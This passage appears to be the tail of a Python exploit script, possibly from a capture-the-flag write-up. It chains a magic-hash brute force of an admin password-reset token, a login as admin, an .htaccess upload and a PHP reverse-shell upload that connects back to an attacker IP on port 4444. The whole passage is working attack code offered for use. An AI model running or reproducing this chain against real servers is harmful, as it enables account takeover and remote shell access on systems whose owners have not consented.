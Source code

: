 ```python
    if "Reset your password below" in resp.text:
        return True  # success, token accepted
    else:
        return False  # try again

# step 6: brute force magic hash and change admin password
while True:
    ResetLink()  # request password reset link
    if Test():  # check if reset link is accepted
        session.post(f'{target}/reset/1/{ts}/0e123456', data={'password': password})  # reset password
        print('hell yeah brother!')  # success message
        break

# step 7: log in as admin using the new password
session.post(target + '/login', data={'email': email, 'password': password})

# step 8: exploit arbitrary file upload to gain RCE
# upload .htaccess to allow execution of PHP files with unusual extensions
session.post(target + '/import', files={'file': ('.htaccess', 'RewriteEngine on\nRewriteRule shell.php shell.php6')})

# step 9: upload reverse shell as PHP6 file
session.post(target + '/import', files={'file': ('shell.php6', f'<?php $s=fsockopen("{my_ip}", 4444); $p=proc_open("/bin/sh -i", array(0=>$s, 1=>$s, 2=>$s), $pipes); ?>')})

# step 10: execute the reverse shell
session.get(target + '/imports/shell.php')
```

